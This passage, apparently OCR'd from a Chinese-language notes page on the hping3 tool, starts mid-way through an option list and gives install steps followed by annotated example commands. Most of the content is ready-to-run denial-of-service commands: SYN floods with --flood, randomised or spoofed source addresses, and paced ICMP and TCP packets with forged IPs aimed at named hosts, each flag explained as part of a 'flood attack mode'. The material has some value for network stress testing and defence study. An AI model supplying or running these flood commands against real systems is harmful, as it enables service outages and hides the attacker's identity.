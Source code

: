 ```
–tr-keep-ttl 保持源TTL，对监测一个hop有用
–tr-no-rtt 使用路由跟踪模式时不计算或显示RTT信息

ARS数据包描述(新增加的内容，暂时还不稳定)
–apd-send 发送用描述APD的数据包

```


## install
```
yum install -y yum-plugin-priorities
yum install -y hping3

```

## example


### FTP(21 port)
```
hping3  -c 100000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

1. hping3 = 應用程式二進位代碼的名稱。
2. -c 100000 = 發送的數據包的數量。
3. -d 120 = 發送到目標機器的每個數據包的大小。
4. -S = 只發送SYN數據包。
5. -w 64 = TCP窗口大小。
6. -p 21 = 目的地埠(21是FTP埠)。你在這裡可以使用任何埠。
7. --flood = 儘可能快地發送數據包，不需要考慮顯示入站回復。洪水攻擊模式。
8. --rand-source = 使用隨機性的源頭IP位址。你還可以使用-a或–spoof來隱藏主機名。詳見文章末尾的參考手冊頁。
9. www.hping3testsite.com = 目的地IP位址或目標機器的IP位址。你在這裡還可以使用網站名稱。在本文中解析至127.0.0.1(已在/etc/hosts文件中輸入)。
那麼，你如何知道它切實可行呢?在hping3洪水攻擊模式下，我們並不檢查收到的回覆(實際上你也無法檢查收到的回覆，因為我們在這個命令中使用了–rand-souce標誌，這意味著源頭IP位址不再是你的IP位址。)
```
## 結合偽造IP位址的簡單的SYN洪水攻擊――使用HPING3的DoS

```
hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com
```

```
hping3  192.168.0.21 –i u10000  –S  –a 1.2.3.4
hping3 want_ping_ip --fast -p 80 -S  --rand-source
hping want_ping_ip –i u100000 –S –a 1.2.3.4 
hping3 -q -n -a want_ping_ip -S -s 53 --keep -p 22 --flood want_ping_ip

[ -c count ]  [ -d data size ] [ -s source port ] [ -w tcp window ] [ -p desk port ] [ -a 偽造來源IP ]
-- flood    洪水 盡可能快地發送數據包，而不必注意顯示傳入的回复。
-- rand-source  該選項啟用隨機源模式。 hping將發送具有隨機源地址的數據包。使用此選項強調防火牆狀態表以及TCP / IP堆棧和防火牆軟件內部的其他基於每個IP的動態表是很有趣的。


------------------------------------------------

hping www.abc.net.tw -1 -i u100000 -a 100.100.100.100
每秒送10個(-i u10000)ICMP(-1)封包到www.abc.net.tw 偽造來源IP(-a)為100.100.100.100


hping www.abc.net.tw –i u1000000 –a 100.100.100.100 –s 22222 –p 44444
每秒送1個(-i u1000000)TCP(default)封包到www.abc.net.tw的port 44444，偽造來源IP(-a)100.100.100.100使用的port為22222

hping www.abc.net.tw -1 -i u100000 -a 100.100.100.100 
```